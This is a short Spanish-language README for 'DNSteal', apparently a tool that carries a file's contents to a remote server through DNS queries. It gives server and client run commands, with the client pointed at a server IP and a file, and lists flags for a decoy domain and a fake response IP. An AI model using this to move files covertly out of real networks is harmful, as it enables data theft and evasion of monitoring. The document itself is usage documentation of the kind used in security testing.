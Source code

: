 # DNSteal

## Uso

#### 💻 Ejecutar el programa:

* **Server**

```bash
python3 server.py
```

<img src="/media/Client.png" width="300" title="use example">

* **Client**

```bash
python3 client.py -s Server_IP -f File
```

<img src="./media/Server.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

![Video](media/Video.mov)
